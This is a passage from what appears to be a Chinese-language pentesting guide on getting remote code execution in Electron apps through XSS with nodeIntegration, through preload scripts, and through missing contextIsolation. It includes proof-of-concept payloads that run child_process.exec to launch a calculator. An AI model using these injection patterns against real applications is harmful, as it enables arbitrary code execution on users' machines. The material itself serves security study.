 ## RCE: XSS + nodeIntegration

如果 **nodeIntegration** 设置为 **on**，网页的 JavaScript 可以通过调用 `require()` 轻松使用 Node.js 的功能。例如，在 Windows 上执行 calc 应用的方法是：
```html
<script>
require("child_process").exec("calc")
// or
top.require("child_process").exec("open /System/Applications/Calculator.app")
</script>
```
<figure><img src="../../../images/image (1110).png" alt=""><figcaption></figcaption></figure>

## RCE: preload

该设置中指定的脚本会**在 renderer 的其他脚本之前加载**，因此它**对 Node APIs 具有无限访问权**:
```javascript
new BrowserWindow{
webPreferences: {
nodeIntegration: false,
preload: _path2.default.join(__dirname, 'perload.js'),
}
});
```
因此，该脚本可以将 node-features 导出到 pages：
```javascript:preload.js
typeof require === "function"
window.runCalc = function () {
require("child_process").exec("calc")
}
```

```html:index.html
<body>
<script>
typeof require === "undefined"
runCalc()
</script>
</body>
```
> [!NOTE] > **如果 `contextIsolation` 已启用，则此方法无效**

## RCE: XSS + contextIsolation

_**contextIsolation**_ 引入了 **网页脚本与 Electron 内部 JavaScript 代码之间的隔离上下文**，使各自的 JavaScript 执行互不影响。这是消除 RCE 可能性的必要功能。

如果上下文未隔离，攻击者可以：

1. 执行 **在 renderer 中的任意 JavaScript**（XSS 或导航到外部站点）
2. **覆盖内置方法**，该方法在 preload 或 Electron 内部代码中被使用以劫持功能
3. **触发** 被 **覆盖的函数** 的使用
4. RCE?
